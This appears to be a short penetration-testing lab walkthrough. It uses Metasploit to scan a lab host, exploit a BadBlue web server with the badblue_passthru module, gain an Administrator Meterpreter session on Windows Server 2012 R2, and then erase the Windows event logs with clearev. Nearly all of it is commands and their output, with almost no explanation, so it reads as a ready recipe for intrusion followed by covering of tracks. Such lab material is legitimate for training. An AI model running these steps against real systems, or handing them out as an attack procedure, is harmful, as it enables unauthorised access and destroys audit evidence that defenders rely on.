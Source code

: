 ```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.26.66
setg RHOST 10.2.26.66
workspace -a Clearenv
db_nmap -sV 10.2.26.66
```

### Exploitation

```bash
use exploit/windows/http/badblue_passthru
run
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

### Clearing Windows Event Logs

❗ *Elevated privileges are necessary to clean the Event logs.*

- From the `Meterpreter` session clear the event log

```bash
clearev
```

![](3-metasploitassets/image-20230419233932312.png)
